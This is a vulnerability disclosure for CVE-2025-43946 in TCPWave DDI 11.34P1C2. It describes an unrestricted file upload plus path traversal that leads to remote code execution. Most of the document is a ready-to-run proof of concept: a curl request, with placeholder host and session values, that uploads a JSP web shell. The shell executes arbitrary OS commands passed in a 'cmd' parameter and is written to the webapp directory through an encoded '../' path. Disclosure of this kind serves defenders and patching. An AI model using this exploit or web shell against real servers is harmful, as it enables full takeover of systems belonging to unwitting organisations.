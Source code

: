 # CVE-2025-43946
TCPWave DDI version 11.34P1C2 was found vulnerable to remote code execution via the unrestricted file upload and path traversal. The vulnerability lies on its file upload functionality, where there is no proper validation on file type allowing any users to upload files to the server. Moreover, any user can perform path traversal to upload files to any location within the server, which can further lead to remote code execution.

# Affected Product & Version
TCPWave DDI version <= 11.34P1C2 </br>

Reference: https://tcpwave.com/ddi-dns-dhcp-ipam

# PoC
cURL command:
````
curl --path-as-is -i -s -k -X $'POST' \

-H $'Host: YOUR-INSTANCE-URL ' -H $'Content-Length: 898' -H $'Sec-Ch-Ua-Platform:
\"Linux\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Sec-Ch-Ua: \"Chromium\";v=\"133\",
\"Not(A:Brand\";v=\"99\"' -H $'Sec-Ch-Ua-Mobile: ?0' -H $'X-Requested-With: XMLHttpRequest' -H
$'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/
133.0.0.0 Safari/537.36' -H $'Accept: */*' -H $'Content-Type: text/plain; charset=UTF-8' -H $'Origin:
https:// YOUR-INSTANCE-URL ' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H
$'Sec-Fetch-Dest: empty' -H $'Referer: https:// YOUR-INSTANCE-URL/tims/import' -H $'Accept-
Encoding: gzip, deflate, br' -H $'Priority: u=1, i' -H $'Connection: keep-alive' \

-b $'JSESSIONID=YOUR_SESSION_ID' \

--data-binary $'<%@ page import=\"java.util.*,java.io.*\"%>\x0d\x0a<%
\x0d\x0a%>\x0d\x0a<HTML><BODY>\x0d\x0aCommands with JSP\x0d\x0a<FORM
METHOD=\"GET\" NAME=\"myform\" ACTION=\"\">\x0d\x0a<INPUT TYPE=\"text\"
NAME=\"cmd\">\x0d\x0a<INPUT TYPE=\"submit\" VALUE=\"Send\">\x0d\x0a</
FORM>\x0d\x0a<pre>\x0d\x0a<%\x0d\x0aif (request.getParameter(\"cmd\") != null) {\x0d\x0a
out.println(\"Command: \" + request.getParameter(\"cmd\") + \"<BR>\");\x0d\x0a Process p;
\x0d\x0a if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\x0d\x0a
p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\x0d\x0a }
\x0d\x0a else{\x0d\x0a p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));
\x0d\x0a }\x0d\x0a OutputStream os = p.getOutputStream();\x0d\x0a InputStream in =
p.getInputStream();\x0d\x0a DataInputStream dis = new DataInputStream(in);\x0d\x0a String disr
= dis.readLine();\x0d\x0a while ( disr != null ) {\x0d\x0a out.println(disr);\x0d\x0a disr =
dis.readLine();\x0d\x0a }\x0d\x0a}\x0d\x0a%>\x0d\x0a</pre>\x0d\x0a</BODY></HTML>' \

$'https://YOUR-INSTANCE-URL/tims/rest/files/upload/
%2e%2e%2fserverTempDir%2FjEtTySERver%2Fwebapp%2Fpoc.jsp'
````

# Credits
This vulnerability was discovered by Rahul Kadavil of Henkel Cyber Security Team.
